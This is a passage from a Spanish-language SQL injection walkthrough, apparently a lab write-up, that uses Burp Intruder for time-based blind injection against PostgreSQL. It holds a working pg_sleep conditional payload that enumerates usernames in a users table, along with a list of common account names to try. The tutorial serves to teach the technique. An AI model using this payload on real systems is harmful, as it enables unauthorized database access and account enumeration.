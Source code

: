 ```list
is_active
```

Realizamos un ataque y analizar el estado de la respuesta, si es un estado 200 ok, es valido sino no existe la columna dentro de la tabla.

![Intruder 2]({{site.url}}/images/SQLi/sqli-14/intruder2.png)

Realizamos la carga de payloads y tener en cuenta cambiar el `Resource Pool` a 1

![Pool]({{site.url}}/images/SQLi/sqli-14/pool.png)

La tabla que se demoro mas en responder fue la de `email, username, password`.

![Respuesta]({{site.url}}/images/SQLi/sqli-14/respuesta2.png)

## Averiguar nombre de usuarios en la BD

Ya que tenemos el nombre de la tabla y sus campos vamos a listar el nombre de los usuarios. TODO usuario que genere error existe en la tabla.

```sql
' || (SELECT CASE WHEN (username='payload') THEN pg_sleep(10) ELSE pg_sleep(-1) END FROM users)--
```

Lista de nombre de usuarios mas comunes

 ```
admin
administrator
root
user
guest
test
superuser
default
manager
support
moderator
developer
operator
owner
sales
marketing
finance
hr
accounting
itadmin
 ```

 Realizamos el ataque de intruder, tener presente colocar `Resouce Pool` en 1 para que realice el ataque 1 por 1.

![Intruder 3]({{site.url}}/images/SQLi/sqli-14/intruder3.png)
